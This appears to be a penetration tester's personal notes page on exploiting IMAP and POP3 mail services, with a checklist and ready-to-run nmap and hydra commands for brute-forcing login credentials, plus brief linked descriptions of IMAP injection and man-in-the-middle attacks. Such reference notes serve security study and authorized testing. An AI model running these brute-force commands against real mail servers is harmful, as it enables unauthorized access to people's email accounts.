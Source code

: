 ```yaml
---
id: Exploitation
aliases: []
tags: []
---
```


# Exploitation

<!-- Checklist {{{-->
## Checklist

### IMAP

- [ ] Try already discovered credentials
- [ ] [[Exploitation#Brute Force|Brute force]]
    - [ ] [[Exploitation#Nmap (IMAP)|Nmap]]
    - [ ] [[Exploitation#Hydra (IMAP)|Hydra]]

### POP3

- [ ] Try already discovered credentials
- [ ] [[Exploitation#Brute Force (POP3)|Brute Force]]
    - [ ] [[Exploitation#Nmap (POP3)|Nmap]]
    - [ ] [[Exploitation#Hydra (POP3)|Hydra]]

<!-- }}} -->

<!-- IMAP {{{-->
## IMAP

<!-- Brute Force {{{-->
### Brute Force

Brute force imap server credentials

<!-- Nmap {{{-->
#### Nmap (IMAP)

```sh
nmap --script imap-brute -p 143,993 <target_ip>
```

```sh
nmap -sV --script imap-brute -p <port> <target_ip>
```
<!-- }}} -->

<!-- Hydra {{{-->
#### Hydra (IMAP)

```sh
hydra -L <users.txt> -P <passwords.txt> imap://<target_ip>
```

```sh
hydra -l <username> -P <passwords.txt> -f <target_ip> imap -V
```

```sh
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V
```
<!-- }}} -->

<!-- }}} -->

<!-- IMAP Injection {{{-->
### IMAP Injection

[IMAP injection attacks](https://hackviser.com/tactics/pentesting/services/imap#imap-injection)
involve injecting malicious commands or data into IMAP requests
to exploit vulnerabilities in the server software
or gain unauthorized access to email accounts.
<!-- }}} -->

<!-- Man-in-the-Middle {{{-->
### Man-in-the-Middle

[MitM attacks](https://hackviser.com/tactics/pentesting/services/imap#man-in-the-middle-mitm-attacks)
on IMAP traffic can intercept and modify email messages exchanged
between the client and server, compromising the confidentiality
and integrity of email communication.
<!-- }}} -->

<!-- }}} -->

<!-- POP3 {{{-->
## POP3

<!-- Brute Force {{{-->
### Brute Force (POP3)

Brute force POP3 login credentials

#### Nmap (POP3)

```sh
nmap -p 110 --script pop3-brute --script-args userdb=users.txt,passdb=pass.txt <target_ip>
```

#### Hydra (POP3)

```sh
hydra -L <users.txt> -P <passwords.txt> -f <target_ip> pop3 -V
```

```sh
hydra -l <username> -P <passwords.txt> -f <target_ip> pop3 -V
```
<!-- }}} -->

<!-- }}} -->
